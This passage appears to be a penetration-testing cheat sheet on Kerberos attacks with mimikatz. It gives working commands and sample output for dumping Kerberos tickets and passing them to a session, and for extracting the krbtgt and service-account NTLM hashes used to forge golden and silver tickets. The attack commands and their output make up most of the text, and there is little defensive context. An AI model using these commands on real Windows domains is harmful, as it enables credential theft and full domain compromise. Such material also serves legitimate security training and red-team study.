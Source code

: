 - Run the [mimikatz.exe](https://github.com/gentilkiwi/mimikatz)
- And check the running permission

```powershell
# run mimikatz.exe
.\mimikatz.exe

# check privs(running as admin)
mimikatz # privilege::debug 
Privilege '20' OK 

# dump all tickets (save the tickets in the current working folder)
mimikatz # sekurlsa::tickets /export
Authentication Id : 0 ; 407400 (00000000:00063768)
[..snip..]
# the tickets will be exported to the directory where mikiatz is currently running

# pass the ticket to the current session
kerberos::ptt {ticket-name}

# see the available / loaded tickets in the machine with the command
C:\Users\Administrator\Downloads> klist
```

### Golden / Silver Ticket Attacks

- Silver ticket has access only to the specific service
- Golden ticket has complete access over the kerberos service

```powershell
# run mimikatz
.\mimikatz.exe

# dump the krbtgt hash for golden ticket attack
mimikatz # lsadump::lsa /inject /name:krbtgt                       
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860
RID  : 000001f6 (502)                                        
User :krbtgt                                                  

 *Primary                                                       
    NTLM : 72cd714611b64cd4d5550cd2759db3f6
    LM   :                                                   
  Hash NTLM: 72cd714611b64cd4d5550cd2759db3f6
    ntlm- 0: 72cd714611b64cd4d5550cd2759db3f6
    lm  - 0: aec7e106ddd23b3928f7b530f60df4b6
[..snip..]

# dump the hash for a specific service for silver ticket attack
mimikatz # lsadump::lsa /inject /name:{service-name}
mimikatz # lsadump::lsa /inject /name:sqlservice
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860

RID  : 00000455 (1109)
User : sqlservice

 * Primary
    NTLM : cd40c9ed96265531b21fc5b1dafcfb0a
    LM   :
  Hash NTLM: cd40c9ed96265531b21fc5b1dafcfb0a
    ntlm- 0: cd40c9ed96265531b21fc5b1dafcfb0a
    lm  - 0: 7bb53f77cde2f49c17190f7a071bd3a0
[..snip..]

```

